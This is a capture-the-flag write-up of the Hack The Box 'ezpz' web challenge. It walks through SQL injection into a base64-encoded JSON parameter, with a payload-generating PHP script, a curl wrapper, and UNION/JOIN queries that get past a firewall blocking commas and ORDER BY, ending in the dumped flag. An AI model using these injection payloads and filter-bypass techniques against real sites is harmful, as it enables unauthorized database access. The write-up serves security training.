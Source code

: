 # ezpz Challenge

Navigating to the site we are presented with two error messages:

```
Notice: Undefined index: obj in /var/www/html/index.php on line 27

Notice: Trying to get property 'ID' of non-object in /var/www/html/index.php on line 29
```

If we look at the source we also see

```html
<!-- Hint : base64_encode($data)-->
```

Given that obj is an undefined index, let's see if it's a query parameter:

```shell-session
╭─zoey@nomadic ~/htb/challenges/ezpz ‹master*›
╰─$ curl --silent "docker.hackthebox.eu:30870/?obj" | grep -v '^$'
```

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Easy Peasy..</title>
  </head>
  <body bgcolor="#A9A9A9">
    <center>
      <br /><br /><br /><br /><br /><br /><br />
      <br />
      <b>Notice</b>: Trying to get property 'ID' of non-object in
      <b>/var/www/html/index.php</b> on line <b>29</b><br />
    </center>
  </body>
</html>
<!-- Hint : base64_encode($data)-->
```

This seems to remove the first error. Let's assume that `obj` is a JSON object with an `ID` property and try another request, but according to
the hint, we need to base64 encode it. Let's setup a script to do that.

```php
<?php

$data='{"ID":"' . $argv[1] .'"}';
echo base64_encode($data)."\n";
```

And now lets plug the output from it into a request

```shell-session
╭─zoey@nomadic ~/htb/challenges/ezpz ‹master*›
╰─$ php ezpz-payload.php 1
eyJJRCI6IjEifQ==
╭─zoey@nomadic ~/htb/challenges/ezpz ‹master*›
╰─$ curl --silent "docker.hackthebox.eu:30870/?obj=eyJJRCI6IjEifQ==" | grep -v '^$'
```

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Easy Peasy..</title>
  </head>
  <body bgcolor="#A9A9A9">
    <center>
      <br /><br /><br /><br /><br /><br /><br />
      <h4 style="color:black; font-family: verdana">
        Good Luck, You've got that this is really gonna be an intersting
        challenge :)
      </h4>
    </center>
  </body>
</html>
<!-- Hint : base64_encode($data)-->
```

Success. Let's setup a script so we can easily rerun this request, and remove some of the extraneous output:

```bash
#!/bin/sh

payload=$(php gen-payload.php "${1}")
echo "${payload}"
curl --silent "http://docker.hackthebox.eu:30870/?obj=${payload}" | sed -n '/<br>/,/\/center/p;/\/center/q' | grep -v '^$' | grep -v "<br><br><br><br>\|</center>"
```

And now we'll test for SQL injection:

```shell-session
╭─zoey@nomadic ~/htb/challenges/ezpz ‹master*›
╰─$ ./ezpz.sh "'"
eyJJRCI6IicifQ==
```

```html
<br />
<b>Warning</b>: mysqli_fetch_assoc() expects parameter 1 to be mysqli_result,
bool given in <b>/var/www/html/index.php</b> on line <b>34</b><br />
```

Now that we know it works, let's see what we can dump:

```shell-session
╭─zoey@nomadic ~/htb/challenges/ezpz ‹master*›
╰─$ ./ezpz.sh "1' or 1#"
eyJJRCI6IjEnIG9yIDEjIn0=
```

```html
<h4 style="color:black; font-family: verdana">
  Good Luck, You've got that this is really gonna be an intersting challenge :)
</h4>
<h4 style="color:black; font-family: verdana">
  Avoid Tools, If you wan't to Enjoy the Challenge :v ..
</h4>
<h4 style="color:black; font-family: verdana">
  Go and Find the vulnerability ..
</h4>
```

We were able to dump all the results from the current table. Let's see what we can get away with. Quite a few different patterns end up returning a message
about the request being blocked by the server's application firewall.

```sql
"ORDER BY"
"OFFSET"
","
'/'
"schema.tables"
```

Let's determine how many columns there are

```shell-session
╭─zoey@nomadic ~/htb/challenges/ezpz ‹master*›
╰─$ ./ezpz.sh "1' GROUP BY 2#"
eyJJRCI6IjEnIEdST1VQIEJZIDIjIn0=
<h4 style='color:black; font-family: verdana'>Good Luck, You've got that this is really gonna be an intersting challenge :)</h4>
╭─zoey@nomadic ~/htb/challenges/ezpz ‹master*›
╰─$ ./ezpz.sh "1' GROUP BY 3#"
eyJJRCI6IjEnIEdST1VQIEJZIDMjIn0=
<br />
<b>Warning</b>:  mysqli_fetch_assoc() expects parameter 1 to be mysqli_result, bool given in <b>/var/www/html/index.php</b> on line <b>34</b><br />
```

So we have two columns. Next let's find the table names.

```shell-session
╭─zoey@nomadic ~/htb/challenges/ezpz ‹master*›
╰─$ ./ezpz.sh "1' UNION SELECT * FROM (SELECT database_name FROM mysql.innodb_table_stats)UT1 JOIN (SELECT table_name FROM mysql.innodb_table_stats)UT2 ON UT1.database_name=UT2.table_name OR 1=1#"
eyJJRCI6IjEnIFVOSU9OIFNFTEVDVCAqIEZST00gKFNFTEVDVCBkYXRhYmFzZV9uYW1lIEZST00gbXlzcWwuaW5ub2RiX3RhYmxlX3N0YXRzKVVUMSBKT0lOIChTRUxFQ1QgdGFibGVfbmFtZSBGUk9NIG15c3FsLmlubm9kYl90YWJsZV9zdGF0cylVVDIgT04gVVQxLmRhdGFiYXNlX25hbWU9VVQyLnRhYmxlX25hbWUgT1IgMT0xIyJ9
```

```html
<h4 style="color:black; font-family: verdana">
  Good Luck, You've got that this is really gonna be an intersting challenge :)
</h4>
<h4 style="color:black; font-family: verdana">DATA</h4>
<h4 style="color:black; font-family: verdana">DATA</h4>
<h4 style="color:black; font-family: verdana">FlagTableUnguessableEzPZ</h4>
<h4 style="color:black; font-family: verdana">FlagTableUnguessableEzPZ</h4>
<h4 style="color:black; font-family: verdana">gtid_slave_pos</h4>
<h4 style="color:black; font-family: verdana">gtid_slave_pos</h4>
```

Looks like `FlagTableUnguessableEzPZ` is the table. Let's see if it perhaps has two columns

```shell-session
╭─zoey@nomadic ~/htb/challenges/ezpz ‹master*›
╰─$ ./ezpz.sh "1' UNION SELECT * FROM FlagTableUnguessableEzPZ#"
eyJJRCI6IjEnIFVOSU9OIFNFTEVDVCAqIEZST00gRmxhZ1RhYmxlVW5ndWVzc2FibGVFelBaIyJ9
```

```html
<br />
<b>Warning</b>: mysqli_fetch_assoc() expects parameter 1 to be mysqli_result,
bool given in <b>/var/www/html/index.php</b> on line <b>34</b><br />
```

Nope, let's add another column

```shell-session
╭─zoey@nomadic ~/htb/challenges/ezpz ‹master*›
╰─$ ./ezpz.sh "1' UNION SELECT * FROM (SELECT NULL)UT1 JOIN (SELECT * FROM FlagTableUnguessableEzPZ)UT2 ON 1=1#"
eyJJRCI6IjEnIFVOSU9OIFNFTEVDVCAqIEZST00gKFNFTEVDVCBOVUxMKVVUMSBKT0lOIChTRUxFQ1QgKiBGUk9NIEZsYWdUYWJsZVVuZ3Vlc3NhYmxlRXpQWilVVDIgT04gMT0xIyJ9
```

```html
<h4 style="color:black; font-family: verdana">
  Good Luck, You've got that this is really gonna be an intersting challenge :)
</h4>
<h4 style="color:black; font-family: verdana">
  HTB{T0o**********************3rs}
</h4>
```

And success!

# References

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
- https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma/118335
